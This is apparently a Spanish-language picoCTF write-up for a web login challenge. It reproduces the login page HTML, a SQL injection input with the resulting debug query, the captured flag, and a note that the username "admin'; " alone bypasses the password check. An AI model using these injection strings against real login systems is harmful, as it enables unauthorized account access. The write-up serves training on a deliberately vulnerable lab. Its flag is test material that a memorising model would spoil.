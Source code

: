 # Irish-Name-Repo-2
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## Pistas
P1:The password is being filtered.
P2:
## Datos de acceso al nivel
```bash
Usuario: Dena
Contraseña: Notedigo
```
## Solución
```bash
Pass siguiente lvl: picoCTF{m0R3_SQL_plz_c34df170}
----------------------------------------------------
|   |   |
|---|---|
||<!doctype html>|
||<html>|
||<head>|
||<title>Login</title>|
||<link rel="stylesheet" type="text/css" href="[//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css](https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css)">|
||</head>|
||<body>|
||<div class="container">|
||<div class="row">|
||<div class="col-md-12">|
||<div class="panel panel-primary" style="margin-top:50px">|
||<div class="panel-heading">|
||<h3 class="panel-title">Log In</h3>|
||</div>|
||<div class="panel-body">|
||<form action="login.php" method="POST">|
||<fieldset>|
||<div class="form-group">|
||<label for="username">Username:</label>|
||<input type="text" id="username" name="username" class="form-control">|
||</div>|
||<div class="form-group">|
||<label for="password">Password:</label>|
||<div class="controls">|
||<input type="password" id="password" name="password" class="form-control">|
||</div>|
||</div>|
||<input type="hidden" name="debug" value="0">|
|||
||<div class="form-actions">|
||<input type="submit" value="Login" class="btn btn-primary">|
||</div>|
||</fieldset>|
||</form>|
||</div>|
||</div>|
||</div>|
||</div>|
||</div>|
||</body>|
||</html>|
|||
----------------------------------------------------
username: or 1 =1;'
password: or 1=1;
SQL query: SELECT * FROM users WHERE name='or 1 =1;'' AND password='or 1=1;'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```
## Notas Adicionales
pudo solucionarse solo poniendo " admin'; " en el campo de usr, ignora el resto de elementos de la pass

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
